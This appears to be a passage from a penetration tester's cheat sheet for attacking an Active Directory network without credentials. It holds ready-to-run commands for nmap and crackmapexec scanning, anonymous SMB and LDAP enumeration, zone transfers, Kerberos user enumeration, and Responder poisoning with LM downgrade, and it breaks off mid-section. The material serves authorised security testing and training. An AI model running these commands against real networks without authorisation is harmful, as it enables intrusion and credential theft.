 ### No credentials
Scan network
cme smb <ip_range> # enumerate smb hosts
nmap -sP -p <ip> # ping scan
nmap -PN -sV --top-ports 50 --open <ip> # quick scan
nmap -PN --script smb-vuln* -p139,445 <ip> # search smb vuln
nmap -PN -sC -sV -oA <output> <ip> # classic scan
nmap -PN -sC -sV -p- -oA <output> <ip> # full scan
nmap -sU -sC -sV -oA <output> <ip> # udp scan

Find DC IP
nmcli dev show eth0 # show domain name & dns
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>

Zone XFER
dig axfr <domain_name> @<name_server>

List guest access SMB shares
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>
smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
cme smb <ip> -u '' -p '' # enumerate null session
cme smb <ip> -u 'a' -p '' # enumerate anonymous access

Enumerate LDAP
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>
ldapsearch -x -h <ip> -s base  

Find User List
enum4linux -U <dc-ip> | grep 'user:'
cme smb <ip> --users 
net rpc group members 'Domain Users' -W '<domain>' -I '<ip>' -U '%'
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>  (OSINT/Internet)

Poisoning
responder -I eth0 (use --lm to force lm downgrade) # disable smb & http if relay
Poisoning SMB ->
 HTTP ->


